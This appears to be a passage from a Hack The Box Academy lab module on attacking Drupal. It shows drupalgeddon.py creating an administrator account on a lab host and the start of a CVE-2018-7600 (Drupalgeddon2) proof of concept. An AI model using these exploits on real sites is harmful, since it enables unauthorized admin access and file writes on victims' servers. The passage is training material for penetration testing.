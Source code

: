 ``` shell-session
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww



Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS


Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password
```

``` shell-session
[!bash!]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

![https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png](https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png)

## Drupalgeddon2

``` shell-session
[!bash!]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```
